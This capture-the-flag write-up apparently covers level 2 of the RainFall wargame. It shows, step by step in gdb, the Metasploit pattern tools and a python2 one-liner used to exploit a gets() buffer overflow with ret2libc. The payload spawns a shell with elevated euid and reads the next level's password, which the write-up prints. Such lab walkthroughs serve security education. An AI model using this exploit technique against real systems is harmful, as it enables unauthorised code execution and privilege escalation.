 # Level 2

The binary is vulnerable to a ret2libc attack. The p function reads input from the user and stores it in the buffer variable. The gets function does not check the size of the input and can write more data than the buffer can hold, causing a buffer overflow. We can use this vulnerability to perform a ret2libc attack and spawn a shell.

Let's first find the offset, I will use metasploit's pattern_create and pattern_offset tools to find the offset.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100   
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

now we run gdb and pass the output of the pattern_create tool as input to the binary

```bash
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers
eax            0x804a008        134520840
ecx            0x0      0
edx            0xbffff6cc       -1073744180
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff720       0xbffff720
ebp            0x63413563       0x63413563
esi            0x0      0
edi            0x0      0
eip            0x37634136       0x37634136
eflags         0x210286 [ PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```

The program crashes with a segmentation fault and we can see that the value of the eip register is 0x37634136. We can use this value to find the offset using the pattern_offset tool.

```bash
┌──(kali㉿kali)-[~/rainfall]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q '0x37634136'
[*] Exact match at offset 80
```

Now that we have the offset, we can find the address of the system function and the string "/bin/sh" in the libc library.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb)  find &system,+9999999,"/bin/sh"
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

Now we need the address of return instruction in the main function to overwrite the return address with the address of the system function. We can use the following command to find the address of the return instruction in the main function.

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
=> 0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.

```

The address of the return instruction in the main function is 0x0804854b.

Now we can write the exploit script to spawn a shell.

```bash
level2@RainFall:~$ python2 -c 'print "A"*80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "BBBB" + "\x58\xcc\xf8\xb7"' > /tmp/exploit1
level2@RainFall:~$ cat /tmp/exploit1 - | ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`���BBBBX���
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cd /home/user/level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

